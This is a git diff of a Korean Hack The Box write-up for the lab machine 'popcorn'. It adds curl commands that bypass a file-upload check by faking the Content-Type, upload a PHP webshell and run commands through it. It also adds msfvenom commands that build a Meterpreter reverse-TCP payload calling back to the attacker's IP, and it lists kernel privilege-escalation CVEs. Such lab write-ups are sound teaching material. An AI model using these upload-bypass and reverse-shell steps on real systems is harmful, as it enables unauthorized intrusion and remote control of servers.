

Before and after one commit to ppouhack/ppouhack.github.io, a Jekyll site: the page built from _posts/Etc/2019-05-13-hack the box-popcorn.md, in a window 1280 px wide and 1400 px high, scrolled down 735 px. Shown: the whole window at 96% size, without its empty margins (188-1091 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
2019-06-21-commit-1

````diff
--- a/_posts/Etc/2019-05-13-hack the box-popcorn.md
+++ b/_posts/Etc/2019-05-13-hack the box-popcorn.md
@@ -7,113 +7,209 @@ summary: File Upload Bypass
 
 ---
 
-**popcorn box**는 다음과 같은 순서로 root를 획득할 수 있습니다.
+# list
 
-1. 웹 컨텐츠 스캐닝
-2. 파일 업로드 우회
-3. shell connection
-4. 서버 정보 수집
-4. MOTD File Tampering Privilege Escalation OR dirty COW Exploit
+- [Exploitation](#Exploitation)
+  + curl
+  + fileupload
+- [Privilege_Escalation](#Privilege_Escalation)
+  + DirtyCow (CVE-2016-5195)
+  + motd (CVE-2010-0832)
+  + Nelson (CVE-2010-4258, CVE-2010-3850, CVE-2010-3849)
+- [ETC Command](#ETC_Command)
 
-popcorn 문제에서는 파일을 업로드할 수 있는 디렉토리가 2개 존재합니다.<br>
+# 0. Intro
+---
+`popcorn` 문제는 적절하게 파일 업로드를 필터링 하지 않는 웹서버를 통해 shell을 업로드하고 Dirty Cow 취약점을 이용하여 Privilege Escalation 하는 방법으로 해결할 수 있습니다.
+
+이번 포스팅에서는 curl, fileupload, python-pty-shells, measploit을 이용한 공격을 정리하겠습니다.
+
+<a name="Exploitation"/>
+
+# 1. Exploitation
+---
+nmap을 이용하여 스캔한 결과는 다음과 같습니다.
+
+```no-highlight
+# Nmap 7.70 scan initiated Sun Jun  2 04:09:12 2019 as: nmap -sC -sV -oA nmap-scripts 10.10.10.6
+Nmap scan report for 10.10.10.6
+Host is up (0.27s latency).
+Not shown: 998 closed ports
+PORT   STATE SERVICE VERSION
+22/tcp open  ssh     OpenSSH 5.1p1 Debian 6ubuntu2 (Ubuntu Linux; protocol 2.0)
+| ssh-hostkey:
+|   1024 3e:c8:1b:15:21:15:50:ec:6e:63:bc:c5:6b:80:7b:38 (DSA)
+|_  2048 aa:1f:79:21:b8:42:f4:8a:38:bd:b8:05:ef:1a:07:4d (RSA)
+80/tcp open  http    Apache httpd 2.2.12 ((Ubuntu))
+|_http-server-header: Apache/2.2.12 (Ubuntu)
+|_http-title: Site doesn't have a title (text/html).
+Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
+```
+
+이 웹서버에는 파일을 업로드할 수 있는 디렉토리가 2개 존재합니다.<br>
 `torrents` 디렉토리의 경우에는 파일 업로드가 불가능하지만 `upload` 디렉토리는 파일 업로드가 가능합니다.<br>
-두개의 디렉토리를 비교하면서 어떠한 조건에서 파일 업로드가 가능한지 대해서 정리하겠습니다.
+
+두개의 디렉토리를 비교하면서 어떠한 조건에서 파일 업로드가 가능한지 대해서 정리하고, curl 사용법에 대해서 공부할 겸 모든 HTTP Request를 굳이 불편하게 curl로 작성하겠습니다.
+
+## 1-1. curl
+---
+**curl 은 command line 용 data transfer tool 입니다.** download/upload 모두 가능하며 HTTP /HTTPS /FTP /LDAP /SCP /TELNET /SMTP /POP3 등 주요한 프로토콜을 지원하며 Linux/Unix 계열 및 Windows 등 주요한 OS 에서 구동되므로 여러 플랫폼과 OS에서 유용하게 사용할 수 있습니다.<br>
+**libcurl** 이라는 C 기반의 library 가 제공되므로 C/C++ 프로그램 개발시 위의 protocol 과 연계가 필요하다면 libcurl 을 사용하여 손쉽게 연계할 수 있습니다. libcurl은 PHP, ruby, PERL 및 여러 언어에 바인딩되어 있으므로 사용하는 언어나 개발환경에 맞게 libcurl 을 사용할 수 있습니다.
+
+| option       | Description |
+|:------------:|:-------------|
+|-L| 서버에서 HTTP 301,302 응답이 왔을 경우 rediretion URL로 따라간다.|
+|-v| 자세한 옵션 출력, HTTP Request Header를 확인할 수 있다.|
+|-d| FORM, DATA를 HTTP POST method를 통해 전달한다.|
+|-c| 쿠키값를 파일로 저장한다.|
+|-b| 파일에서 쿠키값을 읽는다.|
 
 
-# 파일 업로드 우회
+### 로그인 후 torrent 파일 업로드
 ---
-## 1) Directory
----
-대부분의 경우 파일 업로드를 통해 SHELL을 올리고 실행하기 위해서는 업로드 되는 **디렉토리의 실행 권한이 존재**해야합니다.
+login.php 에서 로그인에 필요한 HTML FORM을 확인하고,
+HTTP POST method를 통해 로그인하고 쿠키를 얻어 cookies 파일에 저장합니다.
+
+얻은 쿠키를 이용해 torrents.php에 접근하여 파일 업로드에 필요한 HTML FORM을 확인하고,
+HTTP POST method를 통해 파일을 업로드합니다.
+
+<script id="asciicast-mcWZQOPN4EBOyxm5r12FSRGXB"
+        src="https://asciinema.org/a/mcWZQOPN4EBOyxm5r12FSRGXB.js"
+        async data-autoplay="true" data-size="small" >
+</script>
+
+
+<details>
+<summary>command fold</summary>
+<div markdown="1">
 
 ```console
-www-data@popcorn:/var/www/torrent$ ls -al
-total 196
-drwxr-xr-x 15 www-data www-data  4096 Mar 17  2017 .
-drwxr-xr-x  4 www-data www-data  4096 May 18 12:34 ..
-drwxr-xr-x  2 www-data www-data  4096 Jan 31  2010 PNG
-drwxr-xr-x  4 www-data www-data  4096 Jun  3  2007 admin
--rw-r--r--  1 www-data www-data  1704 Jun  1  2007 browse.php
--rw-r--r--  1 www-data www-data  3042 Jun  3  2007 comment.php
--rw-r--r--  1 www-data www-data  6683 Apr 11  2017 config.php
-...
-drwxrwxrwx  2 www-data www-data  4096 May 18 12:20 torrents		;check
--rw-r--r--  1 www-data www-data  7221 Jun  3  2007 torrents.php
-...
-drwxrwxrwx  2 www-data www-data  4096 May 18 12:32 upload 		;check
--rw-r--r--  1 www-data www-data 15087 Mar 17  2017 upload.php
-...
+root@kali:~/Desktop/htb/popcorn# curl -v http://10.10.10.6/torrent/ > login1.html
+; login form 확인
+
+root@kali:~/Desktop/htb/popcorn# curl -v -L -c cookies -d "username=shin&password=1234" http://10.10.10.6/torrent/login.php > login2.html
+; login 후 cookie 획득
+
+root@kali:~/Desktop/htb/popcorn# curl -v -b cookies http://10.10.10.6/torrent/torrents.php?mode=upload > torrents.html
+; torrent upload form 확인
+
+root@kali:~/Desktop/htb/popcorn# curl -v -b cookies --form torrent=@kali-linux-2019.2-amd64.iso.torrent --form type=1 --form subtype=1 --form submit="Upload Torrent" http://10.10.10.6/torrent/torrents.php?mode=upload > torrents1.html
+; torrent file 업로드
+```
+</div>
+</details>
+<br>
+
+### Fileupload 취약점
+---
+토렌트 파일에 접근하여 edit.php에서 이미지 파일을 업로드하기 위한 업로드한 torrent 파일의 해시값을 확인하고,
+해당 취약점이 존재하는 upload_file.php에서 이미지를 변경하는데 필요한 HTML FORM을 확인하여,
+HTTP POST method를 통해 이미지 파일을 변경합니다.
+
+POPCORN 문제는 dirb, gobuster와 같은 Web Directory Enumeration tool 을 사용하여 업로드되는 디렉토리를 쉽게 파악할 수 있습니다.
+이미지 파일을 변경, 업로드할 시 해당 디렉토리(/torrent/upoad)에 접근하여 확인할 수 있습니다.
+
+파일을 업로드할 때 Content-Type(MIME)는 **사용자가 분석한 값**을 서버로 전달합니다.<br>
+png 파일을 업로드할 경우 Content-Type은 image/png 값으로, php 파일을 업로드할 경우 Content-Type은 application/x-php 값으로 전달하게 됩니다.
+
+이후 소스코드에서 확인하겠지만 파일 업로드 검증 시 해당 문제는 Content-Type 값으로만 검증을 진행하기 때문에 php 파일의 Content-Type 값을 변조하는 방법으로 파일업로드를 우회할 수 있습니다.
+
+<script id="asciicast-YNtIRhG1ABL4kriAe9TfOZrAM"
+        src="https://asciinema.org/a/YNtIRhG1ABL4kriAe9TfOZrAM.js"
+        async data-autoplay="true" data-size="small" >
+</script>
+
+<details>
+<summary>command fold</summary>
+<div markdown="1">
+
+```console
+root@kali:~/Desktop/htb/popcorn# curl -v -b cookies "http://10.10.10.6/torrent/edit.php?mode=edit&id=4d0a31c792c5b044c0f89ca1d1bd02d7b8f35cac" > upload.html
+; image upload form 확인
+
+root@kali:~/Desktop/htb/popcorn# curl -v -L http://10.10.10.6/torrent/upload > uploaddir1.html
+; upload 디렉토리 파일 확인
+
+root@kali:~/Desktop/htb/popcorn# curl -v -b cookies --form file=@logo.png --form submit="Submit Screenshot" "http://10.10.10.6/torre
+nt/upload_file.php?mode=upload&id=4d0a31c792c5b044c0f89ca1d1bd02d7b8f35cac" > upload1.html
+; 정상적인 파일 업로드
+
+root@kali:~/Desktop/htb/popcorn# curl -v -b cookies --form "file=@shell.php;type=image/png" --form submit="Submit Screenshot" "http://10.10.10.6/torrent/upload_file.php?mode=upload&id=4d0a31c792c5b044c0f89ca1d1bd02d7b8f35cac" > bypass.html
+; WebShell 파일 업로드
+
+root@kali:~/Desktop/htb/popcorn# curl -v -L http://10.10.10.6/torrent/upload > uploaddir1.html
+; upload 디렉토리 파일 확인
+root@kali:~/Desktop/htb/popcorn# curl -v  http://10.10.10.6/torrent/upload/4d0a31c792c5b044c0f89ca1d1bd02d7b8f35cac.php?shin=whoami > command.html
+; WebShell에 명령어 전달
+```
+</div>
+</details>
+<br>
+
+### reverse connection shell 생성
+---
+해당 문제의 웹페이지는 php 기반으로 구성되어있습니다.<br>
+msfvenom을 사용하여 php shell을 생성하고 실행하여 metasploit session을 생성합니다.
+
+<script id="asciicast-fOEDdgHxf7UjZnJGj1iqp3W3W"
+        src="https://asciinema.org/a/fOEDdgHxf7UjZnJGj1iqp3W3W.js"
+        async data-autoplay="true" data-size="small" >
+</script>
+
+<details>
+<summary>command fold</summary>
+<div markdown="1">
+
+```console
+root@kali:~/Desktop/htb/popcorn# msfvenom -l payloads | grep php/meterpreter_reverse_tcp
+; php webshell 검색
+
+root@kali:~/Desktop/htb/popcorn# msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.14.8 LPORT=4444 -f raw -o msfshell.php
+; php webshell 생성
+
+root@kali:~/Desktop/htb/popcorn# curl -s -b cookies --form "file=@msfshell.php;type=image/png" --form submit="Submit Screenshot" "http://10.10.10.6/torrent/upload_file.php?mode=upload&id=4d0a31c792c5b044c0f89ca1d1bd02d7b8f35cac" > upload.html
+; webshell 업로드
+
+root@kali:~/Desktop/htb/popcorn# msfconsole
+msf5 > use exploit/multi/handler
+msf5 exploit(multi/handler) > set payload php/meterpreter_reverse_tcp
+; session 생성
 ```
 
+</div>
+</details>
+<br>
+
+## 1-2. fileupload
+---
+
+### 실행 권한
+---
+파일 업로드를 통해 SHELL을 올리고 실행하기 위해서는 업로드 되는 **디렉토리의 실행 권한이 존재**해야합니다.
 `torrents`(토렌트 파일 디렉토리), `upload`(토렌트 이미지 디렉토리) 모두 실행 권한이 존재합니다.
 
-## 2) DirectoryIndex
+<script id="asciicast-Pq3O1oe4A1QEdu4XAiChDXf8r"
+        src="https://asciinema.org/a/Pq3O1oe4A1QEdu4XAiChDXf8r.js"
+        async data-autoplay="true" data-size="small" >
+</script>
+
+### DirectoryIndex
 ---
-
 **apache는 DirectoryIndex 지시어**를 사용하여 디렉토리에 접근하였을 때 기본적으로 읽을 파일을 지정할 수 있습니다.
 
-
-```console
-root@popcorn:/# find / -name "*.conf" | xargs grep DirectoryIndex 2>/dev/null
-/etc/apache2/mods-available/dir.conf:
-DirectoryIndex index.html index.cgi index.pl index.php index.xhtml index.htm
-/etc/apache2/mods-enabled/dir.conf:
-DirectoryIndex index.html index.cgi index.pl index.php index.xhtml index.htm
-
-root@popcorn:/etc/apache2/mods-enabled# cat dir.conf
-<IfModule mod_dir.c>
-          DirectoryIndex index.html index.cgi index.pl index.php index.xhtml index.htm ; check
-</IfModule>
-```
-
-### 2-1) torrents directory
----
-
 `torrents`의 경우 **index.php에 PHP tag(\<? ?>)**이 존재합니다.
-
-```console
-www-data@popcorn:/var/www/torrent/torrents$ ls -al
-total 300
-drwxrwxrwx  2 www-data www-data   4096 May 18 12:48 .
-drwxr-xr-x 15 www-data www-data   4096 Mar 17  2017 ..
--rw-r--r--  1 www-data www-data 235216 Mar 17  2017 723bc28f9b6f924cca68ccdff96b6190566ca6b4.btf
--rw-r--r--  1 www-data www-data  56111 May 18 12:20 c466035da5de7b04df065831e87ac368456e7fbe.btf
--rw-r--r--  1 www-data www-data      6 May 18 12:48 index.php 		; check
-
-www-data@popcorn:/var/www/torrent/torrents$ cat index.php
-<?
-?>
-```
-
 따라서 `torrents`에 접근하였을 경우에 index.php 파일을 읽게 되고 빈 페이지를 보여주게 됩니다.<br>
 **이런 경우에는 업로드 되는 파일명을 확인할 수 없으므로** 상대적으로 공격이 어려워집니다.
 
-### 2-2) upload directory
----
 하지만 `upload`에는 DirectoryIndex 지시어에 설정된 파일이 존재하지 않으므로 디렉토리 목록을 확인할 수 있습니다.
 
-```console
-www-data@popcorn:/var/www/torrent/upload$ ls -al
-total 120
-drwxrwxrwx  2 www-data www-data  4096 May 18 12:32 .
-drwxr-xr-x 15 www-data www-data  4096 Mar 17  2017 ..
--rw-r--r--  1 www-data www-data   687 May 18 12:31 .rev.py
--rw-r--r--  1 www-data www-data 59294 Mar 17  2017 723bc28f9b6f924cca68ccdff96b6190566ca6b4.png
--rw-r--r--  1 www-data www-data    39 May 18 12:25 c466035da5de7b04df065831e87ac368456e7fbe.php
--rw-r--r--  1 www-data www-data  4663 May 18 12:23 c466035da5de7b04df065831e87ac368456e7fbe.png
--rw-r--r--  1 www-data www-data 33029 Jun  2  2007 noss.png
-```
+<script id="asciicast-V4eTandWoFz8OVFX1Ieh3kZJd"
+        src="https://asciinema.org/a/V4eTandWoFz8OVFX1Ieh3kZJd.js"
+        async data-autoplay="true" data-size="small" >
+</script>
 
-### reference
-
-1. [https://httpd.apache.org/docs/2.4/ko/mod/mod_dir.html](https://httpd.apache.org/docs/2.4/ko/mod/mod_dir.html)
-
-## 3) sourcecode
+### SourceCode
 ---
-
-### 3-1) torrents sourcecode
----
-
 `torrents` 디렉토리에 파일을 업로드할 때 호출되는 함수의 일부분입니다.
 
 ```php
@@ -144,8 +240,6 @@ if (isset($_FILES["torrent"]))
 업로드한 파일을 `BDecode` 함수(외부라이브러리) 를 통해서 적절한 torrent 파일인지를 검증하는 단계를 거칩니다.<br>
 이런 경우에는 BDecode 함수가 취약한지 분석해야하고, 취약하다면 우회해야하므로 상대적으로 공격이 어려워집니다.
 
-### 3-2) upload sourcecode
----
 
 반면에 `upload` 디렉토리에 파일을 업로드 할 때 호출되는 함수의 일부분은 다음과 같습니다.
 
@@ -169,7 +263,7 @@ function upload($id)
       // echo "Upload: $id <br />";
       echo "Upload: " . $_FILES["file"]["name"] . "<br />";
 
-	  $ext = substr(strrchr($_FILES["file"]["name"], '.'), 1);
+    $ext = substr(strrchr($_FILES["file"]["name"], '.'), 1);
 
       echo "Type: " . $_FILES["file"]["type"] . "<br />";
       echo "Size: " . ($_FILES["file"]["size"] / 1024) . " Kb<br />";
@@ -185,7 +279,7 @@ function upload($id)
         move_uploaded_file($_FILES["file"]["tmp_name"],
         "upload/$id.$ext");
 
-		$addfilename=db_query("UPDATE namemap SET screenshot='$id.$ext' WHERE info_hash='$id'");
+    $addfilename=db_query("UPDATE namemap SET screenshot='$id.$ext' WHERE info_hash='$id'");
 
         echo "Upload Completed. <br />Please refresh to see the new screenshot.";
 
@@ -203,29 +297,41 @@ function upload($id)
 
 Content-Type(MIME)는 **사용자의 브라우저가 분석한 값**을 서버로 전달합니다.<br>
 따라서 Burpsuite 같은 프록시 툴을 이용하여 Content-Type 값을 변조하여 쉽게 우회할 수 있습니다.
+
 ```no-highlight
 Content-Type: application/x-php -> Content-Type: image/png
 ```
 
-### 4) RESULT
+### reference
 ---
-POPCORN 문제의 파일업로드를 통해 SHELL을 올리는 과정을 정리해보면 다음과 같습니다.
+1. [https://httpd.apache.org/docs/2.4/ko/mod/mod_dir.html](https://httpd.apache.org/docs/2.4/ko/mod/mod_dir.html)<br>
+2. [https://www.lesstif.com/pages/viewpage.action?pageId=14745703](https://www.lesstif.com/pages/viewpage.action?pageId=14745703)
 
-| torrents       | upload       |
-|:------------:|:-------------:|
-|디렉터리 실행 권한 있음|디렉터리 실행 권한 있음|
-|디렉터리에 DirectoryIndex 파일 있음|디렉터리에 DirectoryIndex 파일 없음|
-|상대적으로 업로드 파일에 대한 적절한 검증|업로드 파일에 대한 부적절한 검증|
+<a name="Privilege_Escalation"/>
 
-## ETC Command
+# 2. Privilege_Escalation
+---
+다음 취약점 등으로 권한 상승을 할 수 있습니다.
+
+- 2-1. DirtyCow (CVE-2016-5195)
+- 2-2. motd (CVE-2010-0832)
+- 2-3. Nelson (CVE-2010-4258, CVE-2010-3850, CVE-2010-3849)
+
+<a name="ETC_Command"/>
+
+# 3. ETC Command
 ---
 
+### xclip
+---
 xclip을 사용하면 리눅스 터미널창에서 파일의 내용 또는 문자열 등을 파이프(\|)를 이용한 I/O 리다이렉션(redirection)을 통해 클립보드에 저장할 수 있습니다.
 
 ```console
 root@kali:~/Desktop/popcorn/python-pty-shells# cat /usr/share/exploitdb/exploits/linux/local/14339.sh | xclip
 ```
 
+### uname
+---
 시스템의 모든 정보를 출력합니다.
 
 ```console
@@ -243,6 +351,8 @@ ii  libpam0g                            1.1.0-2ubuntu1                    Plugga
 ii  python-pam                          0.4.2-12ubuntu3                   A Python interface to the PAM library
 ```
 
+### 기타 정보 열거
+---
 home directory에 있는 정보를 열거합니다. 사용자 목록을 확인할 때 유용합니다.
 
 ```bash
````
Also changed, not shown: other parts of _posts/Etc/2019-05-13-hack the box-popcorn.md (+6 -0 lines).
